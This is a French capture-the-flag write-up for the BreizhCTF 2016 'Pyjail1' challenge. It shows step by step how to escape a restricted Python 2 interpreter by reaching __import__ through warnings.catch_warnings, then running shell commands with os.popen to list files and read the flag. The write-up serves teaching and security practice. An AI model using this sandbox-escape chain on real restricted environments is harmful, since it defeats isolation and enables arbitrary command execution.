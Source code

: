 # BREIZHCTF 2K16
**Chall:** Pyjail1 |
**Points:** 300 |
**Taux de réussite:** 36% |



Le titre de ce challenge nous donne un bonne piste pour le résoudre.
Pour commnecer on cherche les fonctions autorisées.

En essayant quelques une on découvre que y a seulement la fonction dir qui est autorisée.

L'idée pour résoudre ce chall est de trouver une méthode accessible qui pourrait nous permettre d'exécuter une commande sur le système ou de trouver un chemin vers la fonction "\__import\__" de python afin de charger le modue "os".


En exécutant la commande suivante sur le serveur on obtient une liste de types et de classes accessbiles depuis notre "jail" :
```
>print ().__class__.__base__.__subclasses__()

[..., <class 'warnings.catch_warnings'>, ...]
```
On obtient une impotante liste de classes et de type exploitable.
Nous allons exploiter la classe "warnings.catch_warnings" car elle a un attribut qui nous intéresse "\_module". (cf: https://hg.python.org/cpython/file/2.7/Lib/warnings.py)

On commence par crée une instace de cette classe dans une variable :
```
>wclass = ().__class__.__base__.__subclasses__()[59]()

```

Ensuite on regarde ce le contenu de l'attribut "_module"
```
>print wclass._module
<module 'warnings' from '/usr/lib/python2.7/warnings.pyc'>
>print dir(wclass._module)
['WarningMessage', '_OptionError', '__all__', '__builtins__', '__doc__', '__file__', '__name__', '__package__', '_getaction', '_getcategory', '_processoptions', '_setoption', '_show_warning', 'catch_warnings', 'default_action', 'defaultaction', 'filters', 'filterwarnings', 'formatwarning', 'linecache', 'once_registry', 'onceregistry', 'resetwarnings', 'showwarning', 'simplefilter', 'sys', 'types', 'warn', 'warn_explicit', 'warnpy3k']

```

Un attribut très intéressant apparait, c'est "\__builtins\__".
```
>print wclass._module.__builtins__
 {..., '__import__': <built-in function __import__>, ...}
```
Et bingo, on a accès la fonction "\__import\__".

Maintenant qu'on a accès à cette fonction il ne reste plus qu'à importer le module os et exécuter des commandes sur le système afin de récupérer le flag.

```
>print wclass._module.__builtins__['__import__']('os').popen("pwd && ls -alR ").read()
>print wclass._module.__builtins__['__import__']('os').popen("cat flag").read()
BZH{flag flag \o/}
```
PS:  j'ai oublié de copier le flag ^^

De même on exécute une commande pour récupérer le code du chall "cat python_vm1.py".


